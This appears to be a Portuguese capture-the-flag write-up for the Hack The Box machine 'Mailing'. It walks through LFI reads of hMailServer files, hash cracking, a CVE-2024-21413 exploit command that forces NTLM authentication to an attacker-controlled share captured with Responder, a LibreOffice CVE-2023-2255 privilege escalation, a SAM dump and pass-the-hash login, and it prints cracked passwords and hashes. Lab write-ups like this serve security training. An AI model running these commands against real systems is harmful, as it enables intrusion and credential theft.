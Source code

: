 ```yaml
---
title: HTB Máquinas - Mailing
date: 2024-05-06 10:50:12 +0300
categories: [HTB, Máquinas]
tags: [máquinas, htb]     # TAG names should always be lowercase
---
```


# Mailing

## Enumeração

```
┌──(yoshiro㉿kali)-[~]
└─$ nmap -sV -A 10.10.11.14    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 08:22 -03
Nmap scan report for mailing.htb (10.10.11.14)
Host is up (0.35s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mailing
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: ACL IMAP4rev1 CHILDREN IDLE NAMESPACE RIGHTS=texkA0001 CAPABILITY SORT completed IMAP4 OK QUOTA
445/tcp open  microsoft-ds?
465/tcp open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
587/tcp open  smtp          hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp open  ssl/imap      hMailServer imapd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-06T11:23:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.23 seconds
```

É possível identificar que o servidor está rodando Microsoft-IIS/10. E esse servidor é vulneravel a ataques LFI.

![](https://i.imgur.com/NpRHvzW.png)

## Explorando a vulnerabildade

Indo até ../../Program+Files+(x86)/hMailServer/Logs/hmailserver_awstats.log é possível vizualizar usuários cadastrados.

![](https://i.imgur.com/cWfgezF.png)

Indo até ../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI é possível identificar uma hash de senha.

![](https://i.imgur.com/EWMNmkB.png)

## User flag

Essa Hash se trata de uma MD5. Quebrando-a:

```
┌──(yoshiro㉿kali)-[~/htb]
└─$ hashcat -m 0 -a 0 hash.txt rockyou.txt 
```
![](https://i.imgur.com/H9j8gHV.png)

Com esse login, é possível acessar o telnet.

![](https://i.imgur.com/uyISYhF.png)

Pesquisando novamente encontrei esse exploit: https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file

Esse exploit permite enviar um e-mail para a Maya para capturar a senha do NTLM.

```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.14.51\mailing' --subject Yoshi
```

Utilize o responder para capturar o e-mail enviado para a Maya.
```
sudo responder -I tun0 -vudo responder -I tun0 -v
```
![](https://i.imgur.com/iHpNrkX.png)

Quebrando:
```
hashcat -m 5600 hash.txt rockyou.txt 
```
![](https://i.imgur.com/2z5u2bf.png)

Utilizando o login da maya, é possível acessar a máquina via evil-winrm e conseguir a user flag.
```
evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
```
![](https://i.imgur.com/YfXYxzu.png)

## Root flag

Utilizei o CVE-2023-2255 que explora uma vulnerabilidade no LibreOffice para dar permissões a maya de administrador local.
https://github.com/elweth-sec/CVE-2023-2255?tab=readme-ov-file

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
```
![](https://i.imgur.com/ywnGvrv.png)

Utilizando o crackmapexec que permite executar comandos remotos diretamente ao sistema operacional. 

Utilizando o --sam, o crackmapexec fará um dump no banco de dados SAM. Esse banco armazena credenciais dos usuários em um sistema windows.

```
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```

![](https://i.imgur.com/Wvn2b1v.png)

Utilizando a hash que o crackmapexec forneceu, é possível acessar via impacket-wmiexec.

```
impacket-wmiexec localadmin@10.10.11.14 -hashes aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae
```
Dessa forma, é possível conseguir a root flag.

![](https://i.imgur.com/3FOXYaW.png)